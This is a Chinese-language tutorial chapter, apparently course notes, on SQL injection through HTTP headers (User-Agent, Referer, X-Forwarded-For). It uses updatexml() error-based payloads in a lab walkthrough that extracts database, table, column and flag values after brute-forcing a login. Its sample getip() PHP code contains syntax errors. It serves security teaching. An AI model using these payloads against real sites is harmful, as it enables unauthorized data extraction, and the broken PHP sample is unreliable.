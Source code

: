 # chapter 3.3 - HEAD Injection

[TOC]

## 0x01 原理与相关概念

### HTTP请求头（HEAD）

包含的常用信息：

1. **User-Agent**：浏览器身份标识的字符串。
2. **Cookie**：个人认证和跨页面固定参数。
3. **Referer**：表示浏览器所访问的前一个页面，可以认为是之前访问页面的链接将浏览器带到了当前页面。

HEAD注入即在向页面传参时将payload构建在HTTP请求头的位置。

### 超全局变量

> 在PHP中许多的预定义变量都是超全局的，这意味着它们在一个脚本的全部作用域中都可用

|   超全局变量 |                             含义                             |
| -----------: | :----------------------------------------------------------: |
|    $_REQUEST |         获取GET/POST/COOKIE（新版本不能获取COOKIE）          |
|       $_POST |                         获取POST传参                         |
|        $_GET |                         获取GET传参                          |
|     $_COOKIE |                        获取COOKIE传参                        |
| **$_SERVER** | （※功能强大） 包含了诸如头信息(HEADER)、路径(PATH)、以及脚本位置等信息的数组 |

常用的$_SERVER参数获取：

$_SERVER['HTTP_REFERER']  --- 获取Referer请求头数据

$_SERVER["HTTP_USER_AGENT"]  --- 获取用户相关信息，包括用户浏览器、操作系统等信息。

$_SERVER["REMOTE_ADDR"]  --- 浏览网页的用户IP。

### updatexml()函数

updatexml() 是更新xml文档的函数，语法：

```mysql
updatexml([locate_content],[PATH],[update_content])
```

在正常的使用中，我们通过把三个参数分别填入目标XML内容，XML文档路径，更新的XML内容来对XML文档进行更新。但是当我们在XML文档路径填入特殊符号（如：`!`和`~`）时，由于不符合第二个参数所需要的Xpath格式的字符串于是将错误路径进行报错，于是利用这个特性我们可以构成以下payload：

```mysql
updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)
#可见PATH部分我们使用的以下函数：
concat(0x7e,(SELECT database()),0x7e)
#实际上为拼接字符串：
~[SELECT database()]~ -- 由于MySQL执行十六进制字符串，"~"对对应的便是"0x7e"
```

于是在执行时，数据库便会在执行了此子查询后将错误信息报告出来，实现了报错注入。

### X-Forwarded-For参数

当今多数缓存服务器的用户为了通过缓存的方式降低外部带宽，常常鼓励或强制用户使用代理服务器接入互联网。而WEB服务器为了能够获取到用户的真实IP便会读取用户请求中的`X-Forwarded-For`参数(如果存在)。

以下的GetIP函数为大量网站及CMS广泛使用：

```php
function getip(){
    if(getenv('HTTP_CLIENT_IP')){
        $ip = getenv('HTTP_CLIENT_IP');
    }else if(getenv('HTTP_X_FORWARDED_FOR'){
        $ip = getenv('HTTP_X_FORWARDED_FOR');
    }else if getenv('HTTP_X_FORWARDED'){
        $ip = getenv('HTTP_X_FORWARDED');
    }else if getenv('HTTP_FORWARDED_FOR'){
        $ip = getenv('HTTP_FORWARDED_FOR');
    }else if getenv('HTTP_FORWARDED'){
        $ip = getenv('HTTP_FORWARDED'); 
        //以上通过X-FORWARDED-FOR参数均能传参，为客户端指定的向代理转发的真实IP
    }else{
        $ip = $_SERVER['REMOTE_ADDR']; 
        //REMOTE_ADDR代表着与服务器建立TCP链接的目标客户端IP，如果存在代理，则为代理机器的IP值
    }
    return $ip;
}
```

由上述源码可见，在WEB服务器获取用户或代理IP时并没有进行过滤，于是便存在了注入漏洞。

## 0x02 注入思路

1. 暴破出弱用户名及密码

   由于HEADER的验证保存需要空间成本，所以通常不会记录登录失败的用户，要进行暴破登入

2. 在HTTP请求头中设置payload

3. 通过添加或修改X-Forwarded-For参数设置payload

4. 通过页面内数据库报错获取信息

## 0x03 靶场实战

1. 暴破出用户名和密码

   ![](https://i.loli.net/2020/11/16/dYPlkCnaZsFS3O5.png)

2. 审查源码，发现传参方式为USER_AGENT

   ```php
   $_SERVER['HTTP_USER_AGENT']
   ```

   ![](https://i.loli.net/2020/11/16/8awWUo9tsjbul6Z.png)

3. 审查源码，发现POST注入的表单框由于添加了转义字符无法实现SQL注入

4. 在请求头设置payload

   1. 在靶场1中使用USER-AGENT传参

      ```mysql
      1' and updatexml(1,concat(0x7e,(select database())),1),'3') -- qwe
      ```

      ​	![3.png](https://i.loli.net/2020/11/16/PwSYD6NUxcjpZme.png)

      **数据库在页面上显示出报错：**

      ![4.png](https://i.loli.net/2020/11/16/SsUhRn2mft173GB.png)

      **按照常规SQL注入方法替换payload进行注入**

      ```mysql
      1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),1),'3') -- qwe 找表名
      
      1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='flag_head' limit 1,1)),1),'3') -- qwe 找字段名
      
      1' and updatexml(1,concat(0x7e,(select flag_h1 from flag_head limit 1,1)),1),'3') -- qwe 找flag
      ```

      ![5.png](https://i.loli.net/2020/11/16/vrTAq4pmWzUblO8.png)

      ![](https://i.loli.net/2020/11/16/8OpDISXFV7P21lU.png)

      ![](https://i.loli.net/2020/11/16/8OpDISXFV7P21lU.png)

      ![7.png](https://i.loli.net/2020/11/16/z1LjuKcdFkSBM6y.png)

   2. 在靶场2中将Header改为Referer传参

   3. 在靶场3中使用X-Forward-For传参

      ```php
      X-Forwarded-For: 1' and updatexml(1,concat(0x7e,(select database())),1),'3') -- qwe
      ```

	![8.png](https://i.loli.net/2020/11/16/IQxMop2VlfurCRZ.png)

      ![9.png](https://i.loli.net/2020/11/16/XDqIB1WpQZye5iY.png)


## 0x03 思考与要点

1. X-Forward-For参数在HEAD内本不包含时可以尝试手动添加。
2. HEAD内所有参数传参时记得在参数名冒号后加空格。
3. `and`表示逻辑与，`or`表示逻辑或，按优先级排序`and > or`。在注入过程中可能因为函数的结合问题影响优先级，可以分别尝试and和or。



